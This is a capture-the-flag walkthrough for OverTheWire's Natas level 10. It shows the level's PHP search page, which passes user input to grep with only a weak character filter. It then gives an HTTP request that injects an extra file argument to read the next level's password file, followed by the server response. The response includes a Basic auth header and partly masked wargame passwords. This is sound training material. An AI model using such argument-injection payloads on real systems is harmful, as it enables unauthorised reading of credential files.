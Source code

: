 # level 10

**Host**: http://natas10.natas.labs.overthewire.org
>natas10:t7I5VHvpa14sJTUGV0cbEs**********

When you visit the site, you get the following message:

```
For security reasons, we now filter on certain characters
Find words containing:
```

### Solution:

When you click on the "View source" link you get following php code:

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

This time the the characters `;`, `|` and `&` are filtered, but we can add the password file `/etc/natas_webpass/natas11` to the files that are processed by `grep` and search for all strings with `.*`.

```http
GET /?needle=.*+%2Fetc%2Fnatas_webpass%2Fnatas11&submit=Search HTTP/1.1
Host: natas10.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Authorization: Basic bmF0YXMxMDp0N0k1Vkh2cGExNHNKVFVHVjBjYkVzYllmRlAyZG1PdQ==
Connection: keep-alive
Referer: http://natas10.natas.labs.overthewire.org/?needle=*+%2Fetc%2Fnatas_webpass%2Fnatas11&submit=Search
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

This gives you the password for natas11 in the response.

```html
HTTP/1.1 200 OK
Date: Thu, 04 Sep 2025 08:58:32 GMT
Server: Apache/2.4.58 (Ubuntu)
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 1216026

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
</head>
<body>
<h1>natas10</h1>
<div id="content">

For security reasons, we now filter on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10/.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:$apr1$ABQa8ztY$WS9a/gEW5xwZb5Pi0wF2c0
/etc/natas_webpass/natas11:UJdqkK1pTu6VLt9UHWAgRZ**********
dictionary.txt:African
dictionary.txt:Africans
dictionary.txt:Allah
dictionary.txt:Allah's
dictionary.txt:American
...
```